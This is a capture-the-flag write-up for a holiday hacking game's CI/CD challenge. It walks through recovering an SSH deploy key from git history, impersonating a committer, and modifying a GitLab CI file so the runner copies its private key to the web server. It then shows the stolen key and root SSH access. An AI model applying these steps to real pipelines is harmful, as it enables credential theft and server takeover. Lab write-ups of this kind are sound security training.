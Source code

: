 ```yaml
---
sidebar_position: 3
---
```


# Jolly CI/CD

## Welcome screen

```bash
Greetings Noble Player, 

Many thanks for answering our desperate cry for help!

You may have heard that some evil Sporcs have opened up a web-store selling 
counterfeit banners and flags of the many noble houses found in the land of 
the North! They have leveraged some dastardly technology to power their 
storefront, and this technology is known as PHP! 

***gasp*** 

This strorefront utilizes a truly despicable amount of resources to keep the 
website up. And there is only a certain type of Christmas Magic capable of 
powering such a thing… an Elfen Ring!

Along with PHP there is something new we've not yet seen in our land. 
A technology called Continuous Integration and Continuous Deployment! 

Be wary! 

Many fair elves have suffered greatly but in doing so, they've managed to 
secure you a persistent connection on an internal network. 

BTW take excellent notes! 

Should you lose your connection or be discovered and evicted the 
elves can work to re-establish persistence. In fact, the sound off fans
and the sag in lighting tells me all the systems are booting up again right now.  

Please, for the sake of our Holiday help us recover the Ring and save Christmas!
```

## Helpfull hints

```
Commiting to Mistakes
From: Tinsel Upatree
Terminal: Jolly CI/CD
The thing about Git is that every step of development is accessible – even steps you didn't mean to take! git log can show code skeletons.
```

```
Switching Hats
From: Tinsel Upatree
Terminal: Jolly CI/CD
If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.
```

![Talk to Tinsel Upatree](/img/elfen-ring/git-hint.png)


## Hacking CI/CD

From talking to Tinsel Upatree we get a link to a Gitlab repo (see screenshot above). Cloning it: 

```bash
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder
Cloning into 'rings-of-powder'...
fatal: unable to update url base from redirection:
  asked for: http://gitlab.flag.net.internal/rings-of-powder/info/refs?service=git-upload-pack
   redirect: http://gitlab.flag.net.internal/users/sign_in
grinchum-land:~$
```

No access here. Trying the full link hinted by Upatree

```bash
grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
Cloning into 'wordpress.flag.net.internal'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 23.07 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.
grinchum-land:~$
```

Looking at what I've cloned

```bash
grinchum-land:~/wordpress.flag.net.internal$ git status
fatal: detected dubious ownership in repository at '/home/samways/wordpress.flag.net.internal'
To add an exception for this directory, call:

        git config --global --add safe.directory /home/samways/wordpress.flag.net.internal
grinchum-land:~/wordpress.flag.net.internal$ git config --global --add safe.directory /home/samways/wordpress.flag.net.internal
grinchum-land:~/wordpress.flag.net.internal$ git status
On branch main
Your branch is up to date with 'origin/main'.

nothing to commit, working tree clean
grinchum-land:~/wordpress.flag.net.internal$
```

Looking at the Git commit log, there are ususally gold to be found in the log:

```bash
grinchum-land:~/wordpress.flag.net.internal$ git log
.
.
.

commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops

commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
```

It appears user "knee-oh" made a happy little accident in commit abdea0ebb21b156c01f7533cea3b895c26198c98 and rectified it in commit e19f653bde9ea3de6af21a587e41e7a909db1ca5. Let's see what accident that was!

```bash
grinchum-land:~/wordpress.flag.net.internal$ git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
HEAD is now at abdea0e added assets
grinchum-land:~/wordpress.flag.net.internal$ ls -la
total 48
drwxr-xr-x 5 samways users  4096 Dec 11 08:35 .
drwxr-xr-x 1 samways  1002  4096 Dec 11 08:26 ..
drwxr-xr-x 8 samways users  4096 Dec 11 08:36 .git
drwxr-xr-x 2 samways users  4096 Dec 11 08:35 .ssh
-rw-r--r-- 1 samways users 19915 Dec 11 08:24 license.txt
-rw-r--r-- 1 samways users  7401 Dec 11 08:24 readme.html
drwxr-xr-x 6 samways users  4096 Dec 11 08:24 wp-content
```

Oh - look at that! A .ssh folder, what's inside?

```bash
grinchum-land:~/wordpress.flag.net.internal$ ls -la .ssh/
total 16
drwxr-xr-x 2 samways users 4096 Dec 11 08:35 .
drwxr-xr-x 5 samways users 4096 Dec 11 08:35 ..
-rw-r--r-- 1 samways users  411 Dec 11 08:35 .deploy
-rw-r--r-- 1 samways users  102 Dec 11 08:35 .deploy.pub
```

Let's make use of this SSH key

```bash
grinchum-land:~/wordpress.flag.net.internal$ cp -r .ssh $HOME/
grinchum-land:~/wordpress.flag.net.internal$ chmod 700 $HOME/    
grinchum-land:~/wordpress.flag.net.internal$ chmod 700 $HOME/.ssh/
grinchum-land:~/wordpress.flag.net.internal$ chmod 644 $HOME/.ssh/.deploy.pub 
grinchum-land:~/wordpress.flag.net.internal$ chmod 600 $HOME/.ssh/.deploy
grinchum-land:~/wordpress.flag.net.internal$ touch $HOME/.ssh/config
```

I had to tell Git which private key to use by creating a config file and putting this as its content:

```
Host gitlab.flag.net.internal
  User git
  Hostname gitlab.flag.net.internal
  IdentityFile ~/.ssh/.deploy
```

Cloning the repository using SSH instead of HTTP:

```bash
grinchum-land:~$ git clone git@gitlab.flag.net.internal:/rings-of-powder/wordpress.flag.net.internal.git
```

Further impersonation, update the Git username and email settings (values grabbed from git log):

```bash
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name "knee-oh"
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email "sporx@kringlecon.com"
```

At this point it was tiresome to reproduce the steps above each time the terminal was reset, so I put my commands in a script to make things more efficient:

```bash
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
cd wordpress.flag.net.internal
git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
cp -r .ssh $HOME/
chmod 700 $HOME/    
chmod 700 $HOME/.ssh/
chmod 644 $HOME/.ssh/.deploy.pub 
chmod 600 $HOME/.ssh/.deploy
touch $HOME/.ssh/config
echo -e "Host gitlab.flag.net.internal\n\tUser git\n\tHostname gitlab.flag.net.internal\n\tIdentityFile ~/.ssh/.deploy" >> $HOME/.ssh/config
cd 
mv wordpress.flag.net.internal wordpress.flag.net.internal.bak 
git clone git@gitlab.flag.net.internal:/rings-of-powder/wordpress.flag.net.internal.git
git config --global user.name "knee-oh"
git config --global user.email "sporx@kringlecon.com"
```

Now, here's the meat. Inside the repositoriy there is a file .gitlab-ci.yml 

```bash
grinchum-land:~/wordpress.flag.net.internal$ cat .gitlab-ci.yml 
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/htm
```

This contains a command to run when deploying. If we look closer at it, it uses a SSH key (/etc/gitlab-runner/hhc22-wordpress-deploy). If we change the file to:

```bash
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal:/var/www/htm
```

The SSH key will be rsynced over to the webserver when the deployment runs. So lets commit the file above and retrieve the SSH key:

```bash
grinchum-land:~/wordpress.flag.net.internal$ wget wordpress.flag.net.internal/hhc22-wordpress-deploy
grinchum-land:~/wordpress.flag.net.internal$ cat hhc22-wordpress-deploy 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3wAAAJiMXr0BjF69
AQAAAAtzc2gtZWQyNTUxOQAAACD8EYdZTOpf5REuWXMb9FKCFWoiIX2HoU1aH90V0Ptq3w
AAAEBtNE6sqOFoqkmOhcB/9DgzaQhQRC/bwkAbsBXwqrt/mPwRh1lM6l/lES5Zcxv0UoIV
aiIhfYehTVof3RXQ+2rfAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
grinchum-land:~/wordpress.flag.net.internal$
```

Success! Now ssh into the Wordpress server:

```bash
grinchum-land:~/wordpress.flag.net.internal$ chmod 600 hhc22-wordpress-deploy 
grinchum-land:~/wordpress.flag.net.internal$ ssh root@wordpress.flag.net.internal -i hhc22-wordpress-deploy
root@wordpress:~# ls /
bin  boot  dev  etc  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@wordpress:~# cd /  
root@wordpress:/# cat flag.txt
```

And the flag is: 

![Elfen ring flag](/img/elfen-ring/elfen-ring-flag.png)
